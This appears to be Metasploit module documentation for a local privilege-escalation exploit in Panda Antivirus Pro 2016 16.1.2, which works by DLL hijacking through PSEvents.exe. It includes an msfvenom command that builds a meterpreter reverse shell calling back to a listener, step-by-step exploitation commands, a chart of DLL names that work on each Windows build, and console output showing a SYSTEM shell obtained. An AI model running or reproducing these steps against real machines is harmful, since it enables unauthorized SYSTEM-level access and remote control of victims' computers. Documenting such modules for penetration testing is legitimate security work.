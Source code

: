 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/)
  or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I 32bit meterpreter seems to get caught,
  so you may need an AV exclusion for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a 10-15 minutes to appear after install, and its downloaded by Panda AV from the company.

  1. Theres an HTTP GET request to 23.215.132.154 for /retail/psprofiler/40032/psprofiler_suite.exe
  2. Then right after HTTP GET request to 23.215.132.154 for /retail/psevents_suite.exe.

## Verification Steps

  1. Install the application
  2. Wait for `C:\ProgramData\Panda Security\Panda Devices Agent\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session [ID]`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

  **DLL**

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, and mentioned several others that could be used.  However the dll seems to be VERY picky.  Default is cryptnet.dll.  See the chart for more details.

|                                           | WINHTTP.dll | VERSION.dll | bcryptPrimitives.dll | CRYPTBASE.dll | cryptnet.dll | WININET.dll |
|---------------------------------------------------------------|-------------|-------------|----------------------|---------------|--------------|-------------|
| 64bit target (1), win10 x64 | CRASH | CRASH | NO |  NO       | valid     |    no |
| 64bit target (1), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid     |    no |
| 32bit target (0), win10 x64 | CRASH | CRASH | NO | NO        | valid     |    no |
| 32bit target (0), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid (caught by av)     |    no |
| 32bit target (0), win7sp1 x86 |  |  | valid |       | valid (caught by av)     |     |

In this chart, `CRASH` means PSEvents.exe crashed on the system.  `NO` means PSEvents didn't crash, but no session was obtained.  `valid` means we got a shell.

  **ListenerTimeout**

  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.

    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: cryptnet.dll, bcryptPrimitives.dll, CRYPTBASE.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background

## Failed Exploitation Attempts

If the dll doesn't work, PSEvents.exe will fail to run.  While silent to the user, an error will occur in the Application Windows Logs.

 * Event ID: 1000
 * Task Category (100)
 * Log Name: Application
 * Source: Application Error
 * Details:
```
Faulting application name: PSEvents.exe, version: 4.0.0.35, time stamp: 0x57061ba6
Faulting module name: ntdll.dll, version: 6.3.9600.17415, time stamp: 0x54504b06
Exception code: 0xc0000374
Fault offset: 0x000d0cf2
Faulting process id: 0xdd0
Faulting application start time: 0x01d218a30fbf1ac5
Faulting application path: C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\PSEvents.exe
Faulting module path: C:\Windows\SYSTEM32\ntdll.dll
Report Id: 4de7a07e-8496-11e6-9735-000c29e0cffb
Faulting package full name: 
Faulting package-relative application ID:
```
